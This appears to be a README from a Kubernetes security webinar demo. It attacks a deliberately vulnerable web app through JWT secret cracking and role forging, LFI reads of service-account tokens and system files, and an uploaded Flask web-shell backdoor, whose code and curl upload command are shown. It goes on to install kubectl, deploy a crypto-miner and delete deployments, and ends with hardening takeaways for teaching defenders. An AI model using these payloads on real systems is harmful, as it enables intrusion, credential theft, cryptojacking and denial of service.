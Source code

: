 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[![Images-api forbidden](../static/03-application-security/01-images-api.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user:
[![Auth-api signup](../static/03-application-security/02-auth-api-signup.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. login with the newly created user and be redirected to the images service:
[![Images-api user account](../static/03-application-security/03-images-api-jwt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=50m14s)

5. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

6. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

7. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)

8. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
    [![Cracked jwt token](../static/03-application-security/04-jwt-cracked.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m09s)

9. proceed to `images-api` with the new token, see the admin page
    [![Images-api admin](../static/03-application-security/05-images-admin.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=53m20s)

---

10. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)
[![LFI read SA certificate](../static/03-application-security/06-var-run-kubernetes-crt.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m44s)
[![LFI read SA certificate: base64-encoded](../static/03-application-security/07-var-run-kubernetes-crt-base64enc.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m45s)
[![LFI read SA certificate: base64-decoded](../static/03-application-security/08-var-run-kubernetes-crt-base64dec.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=54m56s)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.

---

11. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - upload the payload via `curl`:
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    [![UFU upload shell](../static/03-application-security/09-file-upload.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m12s)

    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    [![Use shell: ls](../static/03-application-security/10-shell-ls.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=57m29s)

    - since the server is in Debug mode, it auto-reloads without restarting the pod

12. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`
    [![Use shell: kubectl](../static/03-application-security/11-shell-kubectl.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=58m42s)

13. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

14. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`
    [![Use shell: run miner](../static/03-application-security/12-shell-miner.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=1h00m36s)


15. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`
    [![Use shell: denial-of-service](../static/03-application-security/13-shell-dos.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=1h01m11s)
    [![Result: denial-of-service](../static/03-application-security/14-dos-result.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=1h01m39s)

16. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
